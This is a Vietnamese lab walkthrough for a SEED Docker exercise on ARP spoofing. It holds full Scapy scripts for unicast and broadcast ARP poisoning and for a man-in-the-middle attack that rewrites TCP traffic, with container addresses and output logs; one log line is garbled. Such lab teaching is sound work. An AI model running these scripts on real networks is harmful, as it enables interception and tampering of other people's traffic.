# LAB-02

Phần này chủ yếu là hướng dẫn làm theo, kiểu step2step để mọi người vào phòng thi không bị sót bước nào.
Có gì sai sót mong mọi người cứ report thẳng mặt ạ.

## I. Setup
- Đầu tiên mở file `/home/seed/Lab_setup/Lab02/volumes/docker-compose.yml` và đổi các địa chỉ `10.x.y.10`
Có thể dùng vscode để đổi cho nhanh.

Trong bài này sẽ lấy `x = 61` và `y = 7`.
Ở đây mình cùng dùng cấu hình mạng bridge để có thể ssh từ máy bên ngoài. Chứ con seed nó bất tiện điên



- Sau đó khởi động các dịch vụ docker với lệnh 
```bash
[12/15/24]seed@VM:~/.../volumes$ docker-compose up -d
Creating network "net-10.61.7.0" with the default driver
Creating Server   ... done
Creating Attacker ... done
Creating User     ... done
```

trong folder `/volumes`.
Sử dụng mode `-d` để lệnh chạy ngầm.

- Xem thông tin về các docker process
```bash
[12/15/24]seed@VM:~/.../volumes$ docker ps
CONTAINER ID   IMAGE                               COMMAND                  CREATED         STATUS         PORTS     NAMES
e38b224c176e   handsonsecurity/seed-ubuntu:large   "bash -c ' /etc/init…"   6 seconds ago   Up 3 seconds             User
758a21e6c14a   handsonsecurity/seed-ubuntu:large   "bash -c ' /etc/init…"   6 seconds ago   Up 3 seconds             Server
81ecd9dd554d   handsonsecurity/seed-ubuntu:large   "/bin/sh -c /bin/bash"   6 seconds ago   Up 3 seconds             Attacker
```

- Kiểm tra xem địa chỉ IP của các container có đúng với địa chỉ IP mà ta muốn set hay không:
```bash
[12/15/24]seed@VM:~/.../volumes$ docksh e3
root@e38b224c176e:/# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
16: eth0@if17: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:3d:07:0a brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.61.7.10/24 brd 10.61.7.255 scope global eth0
       valid_lft forever preferred_lft forever
root@e38b224c176e:/# exit
exit
```

Ở đây thì địa chỉ ip đã là `10.61.7.10`, tức là IP đã được set thành công.

- **[OPTIONAL]**

Ở đây thì tôi recommend mọi người cấu hình mạng bridge và ssh từ ngoài vào. 

Sử dụng 4 terminal cho 4 máy `SEED`, `Attacker`, `Server` và `User`.

Sau đó dùng tính năng đổi tên tab của terminal. 

Như thế thì chúng ta sẽ không bị loạn trong việc phân biệt terminal này của máy nào.



- Truy cập vào các container 



**Để có thông tin về các bảng ánh xạ ARP thì ta cần phải ping các máy cho nhau.**

Cụ thể là ở máy User, ta thực hiện lệnh:

```bash
root@e38b224c176e:/# ping 10.61.7.20
root@e38b224c176e:/# ping 10.61.7.51
```

Ở máy Server thực hiện lệnh ping:
```bash
root@e38b224c176e:/# ping 10.61.7.10
root@e38b224c176e:/# ping 10.61.7.51
```

Ta có thông số của các container trước khi thực hiện tấn công:
- Máy User
  - Địa chỉ IP: `10.61.7.10`
  - Địa chỉ MAC: `02:42:0a:3d:07:0a`
  - Bảng ánh xạ ARP:
```bash
root@e38b224c176e:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.61.7.20               ether   02:42:0a:3d:07:14   C                     eth0
10.61.7.51               ether   02:42:0a:3d:07:33   C                     eth0
root@e38b224c176e:/#
```

- Máy Attacker
  - Địa chỉ IP: `10.61.7.51`
  - Địa chỉ MAC: `02:42:0a:3d:07:33`
  - Bảng ánh xạ ARP:
```bash
root@81ecd9dd554d:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.61.7.10               ether   02:42:0a:3d:07:0a   C                     eth0
10.61.7.20               ether   02:42:0a:3d:07:14   C                     eth0
root@81ecd9dd554d:/#
```

- Máy Server
  - Địa chỉ IP: `10.61.7.20`
  - Địa chỉ MAC: `02:42:0a:3d:07:14`
  - Bảng ánh xạ ARP:
```bash
root@758a21e6c14a:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.61.7.51               ether   02:42:0a:3d:07:33   C                     eth0
10.61.7.10               ether   02:42:0a:3d:07:0a   C                     eth0
```

---

## II. Kịch bản tấn công 1
#### 1. Mẫu
```py
#!/usr/bin/python3
from scapy.all import *

E = Ether(dst = '<User_MAC>', src = '<Attacker_MAC>')
A = ARP(op = 2, hwsrc = '<Attacker_MAC>', psrc = '<Server_IP>', hwdst = '<User_MAC>', pdst = '<User_IP>')
pkt = E/A
pkt.show()
sendp(pkt)
```

#### 2. Kịch bản và quy trình tấn công.
Kịch bản tấn công này thực hiện giả mạo ARP (ARP spoofing/poisoning) nhằm can thiệp vào việc liên lạc giữa User và Server. Mục đích là để **đánh lừa User rằng địa chỉ MAC của Attacker chính là địa chỉ MAC của Server**, từ đó chuyển hướng các gói tin đáng lẽ thuộc về Server đến Attacker.

Quy trình tấn công:
1. **Gói tin ARP giả mạo được gửi đến Máy User**
Gói tin này giả mạo là Máy Server (`10.61.7.20`) trả lời rằng địa chỉ MAC của nó là `02:42:0a:3d:07:33` (địa chỉ MAC của Máy Attacker).

2. **Máy User cập nhật bảng ARP**
Máy User nhận gói tin ARP và tin tưởng cập nhật bảng ánh xạ ARP của mình, ánh xạ địa chỉ IP của Máy Server (`10.61.7.20`) với địa chỉ MAC của Máy Attacker (`02:42:0a:3d:07:33`).

3. **Chuyển hướng lưu lượng**
Sau khi bảng ARP của Máy User bị thay đổi, tất cả lưu lượng đáng lẽ được gửi đến Máy Server sẽ được gửi đến Máy Attacker.


#### 3. Phân tích code.
- Mục đích của code:
  - Tạo và gửi gói tin giả mạo đến User.
  - Gói tin này thông báo cho User rằng địa chỉ MAC của Server là địa chỉ MAC của Attacker (`02:42:0a:3d:07:33`).
- Phân tích chi tiết
  - Ethernet Frame (`Ether`)

      ```py
      E = Ether(dst = '<User_MAC>', src = '<Attacker_MAC>')
      ```

    - `dst` là địa chỉ MAC của máy nhận gói tin.
    - `src` là địa chỉ MAC của Attacker, để giả mạo làm Server.
  - Gói tin ARP (`ARP`):
      ```py
      A = ARP(op = 2, hwsrc = '<Attacker_MAC>', psrc = '<Server_IP>', hwdst = '<User_MAC>', pdst = '<User_IP>')
      ```
    - `op = 2`: Thiết lập loại gói ARP là reply (trả lời).
    - `hwsrc`: Địa chỉ MAC giả mạo, trong trường hợp này là địa chỉ MAC của Attacker (`02:42:0a:3d:07:33`).
    - `psrc`: Địa chỉ IP bị giả mạo, trong trường hợp này là địa chỉ IP của Server (`10.61.7.20`).
    - `hwdst`: Địa chỉ MAC của nạn nhân, là User (`02:42:0a:3d:07:0a`).
    - `pdst`: Địa chỉ IP của nạn nhân, là địa chỉ IP của User (`10.61.7.10`).
  - Tổ hợp và gửi gói tin:
    ```py
    pkt = E/A
    pkt.show()
    sendp(pkt)
    ```
      - Gói tin ARP giả mạo được đóng gói (Ethernet + ARP) và gửi đi.
      - `pkt.show()`: Hiển thị nội dung gói tin để kiểm tra.
      - `sendp(pkt)`: Gửi gói tin qua tầng liên kết (Layer 2).

#### 4. Chương trình khai thác
Ta có `scenario1.py` hoàn chỉnh:
```py
#!/usr/bin/python3
from scapy.all import *

E = Ether(dst = '02:42:0a:3d:07:0a', src = '02:42:0a:3d:07:33')
A = ARP(op = 2, hwsrc = '02:42:0a:3d:07:33', psrc = '10.61.7.20', hwdst = '02:42:0a:3d:07:0a', pdst = '10.61.7.10')
pkt = E/A
pkt.show()
sendp(pkt)
```

#### 5. Thực hiện tấn công
- Lưu code vào `scenario1.py` trong máy ảo SEED.



- Đưa `scenario1.py` vào Attacker container.
```bash
[12/15/24]seed@VM:~/.../Lab02$ cd attack/
[12/15/24]seed@VM:~/.../attack$ docker cp scenario1.py 81:/tmp
```

- Kiểm tra ở máy Attacker



- Quan sát lưu lượng trên WireShark. 

*Khúc này nhớ bật WireShark không quên.*

Ở bước này ta cần phân biệt card mạng nào là của docker nào giữa một rừng card mạng ảo.



Card của docker sẽ có prefix là `br`.

Trên máy ảo SEED, sử dụng các command sau:
```bash
[12/15/24]seed@VM:~/.../attack$ ip a
...
8: br-97055204ab75: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:f5:42:57:4b brd ff:ff:ff:ff:ff:ff
    inet 10.61.7.1/24 brd 10.61.7.255 scope global br-97055204ab75
       valid_lft forever preferred_lft forever
    inet6 fe80::42:f5ff:fe42:574b/64 scope link
       valid_lft forever preferred_lft forever
...
```

Trong các ip hiện ra, ta thấy card mạng `br-97055204ab75` có dải IP mà địa chỉ IP của Attacker, User và Server thuộc dải này.
Do đó đây chính là card mạng của docker chúng ta cần tìm.

*Note: Một cách kiểm tra nữa là ping từ máy attacker sang máy server và bắt lưu lượng trên card mạng này, nếu thu được gói tin ICMP thì tức là ta đã chọn đúng card mạng.*

- Sau khi chọn được card mạng đúng, thực hiện tấn công trên máy Attacker:
```bash
root@81ecd9dd554d:/tmp# python3 scenario1.py
###[ Ethernet ]###
  dst       = 02:42:0a:3d:07:0a
  src       = 02:42:0a:3d:07:33
  type      = ARP
###[ ARP ]###
     hwtype    = 0x1
     ptype     = IPv4
     hwlen     = None
     plen      = None
     op        = is-at
     hwsrc     = 02:42:0a:3d:07:33
     psrc      = 10.61.7.20
     hwdst     = 02:42:0a:3d:07:0a
     pdst      = 10.61.7.10

.
Sent 1 packets.
root@81ecd9dd554d:/tmp#
```

- Ở WireShark thu được gói tin ARP giả mạo



*Note: Khúc này nhớ lưu file pcapng lại không tí lỡ tay xóa mất.*

Gói tin giả mạo này có:
- Địa chỉ nguồn: `02:42:0a:3d:07:33` 
- Địa chỉ đích: `02:42:0a:3d:07:0a`
- Là gói tin ARP Reply.
- Nội dung của gói tin này: Máy có địa chỉ IP là `10.61.7.20` có địa chỉ MAC là `02:42:0a:3d:07:33`. Hay nói cách khác là địa chỉ MAC của máy server lúc này đã bị biến thành địa chỉ MAC của máy Attacker.

- Kiểm tra lại trên máy User ta có:
```bash
root@e38b224c176e:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.61.7.51               ether   02:42:0a:3d:07:33   C                     eth0
10.61.7.20               ether   02:42:0a:3d:07:33   C                     eth0
```

---

## III. Kịch bản tấn công 2.
Kịch bản tấn công này tương tự như kịch bản tấn công 1, chỉ khác là lần này thay vì gửi tới một máy cụ thể thì sẽ thực hiện broadcast tới tất cả các máy trong mạng.

### 1. Mẫu
```py
#!/usr/bin/python3
from scapy.all import *

E = Ether(dst = 'ff:ff:ff:ff:ff:ff', src = '<Attacker_MAC>')
A = ARP(hwsrc = '<Attacker_MAC>', psrc = '<Server_IP>', hwdst = 'ff:ff:ff:ff:ff:ff', pdst = '<Random_IP_in_LAN>')

pkt = E/A
pkt.show()
sendp(pkt)
```

#### 2. Script attack

```py
#!/usr/bin/python3
from scapy.all import *

E = Ether(dst = 'ff:ff:ff:ff:ff:ff', src = '02:42:0a:3d:07:33')
A = ARP(hwsrc = '02:42:0a:3d:07:33', psrc = '10.61.7.20', hwdst = 'ff:ff:ff:ff:ff:ff', pdst = '10.61.7.20')

pkt = E/A
pkt.show()
sendp(pkt)
```

#### 3. Thực hiện tấn công
- Đưa `scenario2.py` vào Attacker
```bash
[12/16/24]seed@VM:~/.../Lab02$ cd attack/
[12/16/24]seed@VM:~/.../attack$ docker cp  scenario2.py 81:/tmp
```

- Kiểm tra ở phía attacker
```bash
root@81ecd9dd554d:/tmp# ls
scenario1.py  scenario2.py
```

- Reset arp table của User 
```bash
root@e38b224c176e:/# ip neigh flush all
root@e38b224c176e:/# arp -n
root@e38b224c176e:/#
```

và cập nhật lại: 
```bash
root@e38b224c176e:/# ping 10.61.7.20
PING 10.61.7.20 (10.61.7.20) 56(84) bytes of data.
64 bytes from 10.61.7.20: icmp_seq=1 ttl=64 time=0.904 ms
64 bytes from 10.61.7.20: icmp_seq=2 ttl=64 time=0.138 ms
64 bytes from 10.61.7.20: icmp_seq=3 ttl=64 time=0.128 ms
^C
--- 10.61.7.20 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2030ms
rtt min/avg/max/mdev = 0.128/0.390/0.904/0.363 ms
root@e38b224c176e:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.61.7.20               ether   02:42:0a:3d:07:14   C                     eth0
```
- Bật WireShark để bắt traffic tại card mạng giống như kịch bản 1

- Thực thi code tấn công tại Attacker
```bash
sendp(pkt)root@81ecd9dd554d:/tmp# python3 scenario2.py
###[ Ethernet ]###
  dst       = ff:ff:ff:ff:ff:ff
  src       = 02:42:0a:3d:07:33
  type      = ARP
###[ ARP ]###
     hwtype    = 0x1
     ptype     = IPv4
     hwlen     = None
     plen      = None
     op        = who-has
     hwsrc     = 02:42:0a:3d:07:33
     psrc      = 10.61.7.20
     hwdst     = ff:ff:ff:ff:ff:ff
     pdst      = '10.61.7.1611'

.
Sent 1 packets.
```


- Lúc này ta thấy arp table của User đã bị thay đổi
```bash
Address                  HWtype  HWaddress           Flags Mask            Iface
10.61.7.20               ether   02:42:0a:3d:07:33   C                     eth0
root@e38b224c176e:/#
```

- Kiểm tra WireShark ta nhận được gói tin BROADCAST



Gói tin này thông báo cho tất cả các nút mạng trong LAN là `02:42:0a:3d:07:33` là địa chỉ MAC của thiết bị có IP `10.61.7.20`.

*Note: Khúc này nhớ lưu lại gói tin không tí phải làm lại.*

---

## III. Kịch bản tấn công 3.

Man in the middle. 
Kịch bản tấn công này sẽ sửa hết tất cả gói tin gửi từ User đến Server. Kiểu thay vì chào "hello" thì sẽ là "dcmm".

### 1. Mẫu
- `mitm.py`
```py
#!/usr/bin/python3
from scapy.all import *
import re

USER_IP = '<User_IP_Address>'
USER_MAC = '<User_MAC_Address>'
SERVER_IP = '<Server_IP_Address>'
SERVER_MAC = '<Server_MAC_Address>'

def spoof_pkt(pkt):

	if pkt[IP].src == USER_IP and pkt[IP].dst == SERVER_IP:

		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].payload)
		del(newpkt[TCP].chksum)

		if pkt[TCP].payload:
			data = pkt[TCP].payload.load
			newdata = data.upper()
			send(newpkt/newdata)
		else:
			send(newpkt)

	elif pkt[IP].src == SERVER_IP and pkt[IP].dst == USER_IP:
		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].chksum)
		send(newpkt)

pkt = sniff(iface='eth0', filter='tcp',prn=spoof_pkt)
```

- `scenario3.py`
```py
#!/usr/bin/python3
from scapy.all import *
import time
 
# Định nghĩa thông tin IP và MAC cho từng máy
USER_IP = '<User_IP>'
USER_MAC = '<User_MAC>'
SERVER_IP = '<Server_IP>'
SERVER_MAC = '<Server_MAC>'
ATTACKER_MAC = '<Attacker_MAC>'
 
# Hàm gửi các gói ARP giả mạo liên tục
def send_arp_poison():
    # Gói tin giả mạo gửi đến User, giả danh địa chỉ IP của Server
    pkt_to_user = Ether(src=ATTACKER_MAC, dst=USER_MAC) / ARP(op=2, psrc=SERVER_IP, pdst=USER_IP, hwsrc=ATTACKER_MAC, hwdst=USER_MAC)
 
    # Gói tin giả mạo gửi đến Server, giả danh địa chỉ IP của User
    pkt_to_server = Ether(src=ATTACKER_MAC, dst=SERVER_MAC) / ARP(op=2, psrc=USER_IP, pdst=SERVER_IP, hwsrc=ATTACKER_MAC, hwdst=SERVER_MAC)
 
    while True:
        # Gửi gói tin giả mạo tới cả User và Server
        sendp(pkt_to_user, verbose=False)
        sendp(pkt_to_server, verbose=False)
        time.sleep(0.5)  # Gửi gói tin giả mạo mỗi 0.5 giây để duy trì tấn công
 
# Chạy hàm tấn công
send_arp_poison()


```

### 2. Script attack
- `mitm.py`
```py
#!/usr/bin/python3
from scapy.all import *
import re

USER_IP = '10.61.7.10'
USER_MAC = '02:42:0a:3d:07:0a'
SERVER_IP = '10.61.7.20'
SERVER_MAC = '02:42:0a:3d:07:14'

def spoof_pkt(pkt):

	if pkt[IP].src == USER_IP and pkt[IP].dst == SERVER_IP:

		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].payload)
		del(newpkt[TCP].chksum)

		if pkt[TCP].payload:
			data = pkt[TCP].payload.load
			newdata = data.upper()
			send(newpkt/newdata)
		else:
			send(newpkt)

	elif pkt[IP].src == SERVER_IP and pkt[IP].dst == USER_IP:
		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].chksum)
		send(newpkt)

pkt = sniff(iface='eth0', filter='tcp',prn=spoof_pkt)
```

Script này được chạy trên máy Attacker, mục đích của nó là bắt các gói tin và sửa nội dung các gói tin đó.

Các gói tin gửi từ User đến Server sẽ bị sửa data, cụ thể là viết thường sửa thành viết hoa.

Ngược lại các gói tin gửi từ Server về User thì không can thiệp.

Chương trình này minh họa kịch bản tấn công khi gửi gói tin từ Server đến User.

- `scenario3.py`
```py
#!/usr/bin/python3
from scapy.all import *
import time
 
# Định nghĩa thông tin IP và MAC cho từng máy
USER_IP = '10.61.7.10'
USER_MAC = '02:42:0a:3d:07:0a'
SERVER_IP = '10.61.7.20'
SERVER_MAC = '02:42:0a:3d:07:14'
ATTACKER_MAC = '02:42:0a:3d:07:33'
 
# Hàm gửi các gói ARP giả mạo liên tục
def send_arp_poison():
    # Gói tin giả mạo gửi đến User, giả danh địa chỉ IP của Server
    pkt_to_user = Ether(src=ATTACKER_MAC, dst=USER_MAC) / ARP(op=2, psrc=SERVER_IP, pdst=USER_IP, hwsrc=ATTACKER_MAC, hwdst=USER_MAC)
 
    # Gói tin giả mạo gửi đến Server, giả danh địa chỉ IP của User
    pkt_to_server = Ether(src=ATTACKER_MAC, dst=SERVER_MAC) / ARP(op=2, psrc=USER_IP, pdst=SERVER_IP, hwsrc=ATTACKER_MAC, hwdst=SERVER_MAC)
 
    while True:
        # Gửi gói tin giả mạo tới cả User và Server
        sendp(pkt_to_user, verbose=False)
        sendp(pkt_to_server, verbose=False)
        time.sleep(0.5)  # Gửi gói tin giả mạo mỗi 0.5 giây để duy trì tấn công
 
# Chạy hàm tấn công
send_arp_poison()
```

Ý nghĩa của chương trình như trong comment.


### 3. Thực hiện tấn công
- Chuyển code vào bên trong Attacker

```bash
[12/16/24]seed@VM:~/.../attack$ docker cp scenario3.py 81:/tmp
[12/16/24]seed@VM:~/.../attack$ docker cp mitm.py 81:/tmp
```

- Kiểm tra tại Attacker
```bash
root@81ecd9dd554d:/tmp# ls
mitm.py  scenario1.py  scenario2.py  scenario3.py
```

- Reset ARP table của User
```bash
root@e38b224c176e:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.61.7.20               ether   02:42:0a:3d:07:33   C                     eth0
root@e38b224c176e:/# ip neigh flush all
root@e38b224c176e:/# ping 10.61.7.20
PING 10.61.7.20 (10.61.7.20) 56(84) bytes of data.
64 bytes from 10.61.7.20: icmp_seq=1 ttl=64 time=0.923 ms
64 bytes from 10.61.7.20: icmp_seq=2 ttl=64 time=0.092 ms
^C
--- 10.61.7.20 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 0.092/0.507/0.923/0.415 ms
root@e38b224c176e:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.61.7.20               ether   02:42:0a:3d:07:14   C                     eth0
```

- Tại máy attacker, thực hiện lệnh
```bash
root@81ecd9dd554d:/tmp# sysctl net.ipv4.ip_forward=0
net.ipv4.ip_forward = 0
```

Lệnh này dùng để tắt tính năng tự động chuyển tiếp gói tin đã được thiết lập sẵn trên attacker. 

- Thiết lập kết nối giữa User và Server.
  - Tại server, chạy lệnh: `nc -lnvp 10101`
  - Tại User, chạy lệnh: `nc 10.61.7.20 10101`

